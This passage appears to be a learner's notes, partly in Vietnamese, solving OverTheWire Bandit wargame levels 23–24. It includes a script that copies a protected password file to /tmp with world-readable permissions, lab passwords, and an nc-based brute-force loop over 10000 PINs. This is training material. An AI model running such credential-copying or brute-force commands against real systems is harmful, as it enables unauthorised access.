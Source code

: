 ```jsx
#!/bin/bash
                                                                                                                            echo "$(whoami)"
mkdir /tmp/s24
cp /etc/bandit_pass/bandit24 /tmp/s24/pass  
chmod 777 /tmp/s24/pass               

//pass :  gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8                                                                                             cp /etc/bandit_pass/bandit24  /tmp/s24/pass      
```

## Level 24

```jsx
/*

A daemon is listening on port 30002 and will give you the password for bandit25
if given the password for bandit24 and a secret numeric 4-digit pincode.
There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.
You do not need to create new connections each time
*/

solution : wirte shell script 

```

```jsx
#!/bin/bash

# Lưu mật khẩu của bandit24
password_bandit24="gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8"

#Địa chỉ IP hoặc hostname của server (thay đổi nếu cần)
server="localhost"

#Cổng của daemon đang lắng nghe
port=30002

# Xuất dãy số từ 0000 đến 9999 và chạy song song với xargs
seq -w 0000 9999 | xargs -P  20 -I {} bash -c 'echo {} ;  response=$(echo "'$password_bandit24' {}" | nc -w 1 '$server' '$port'); if [[ $response == *"Correct"* ]]; then echo "Mã PIN đúng là: {}"; echo "Phản hồi: $response"; kill 0; fi'
```

`Explaint`  : 

1 . Seq -w 0000 9999 :  tạo dãy số từ 0000-9999 , w là đảm bảo các các số có kí tự bằng nhau (sequence) 

1. Xargs 

Sdout sẽ được truyền vào stdin của Xargs  làm đối số 
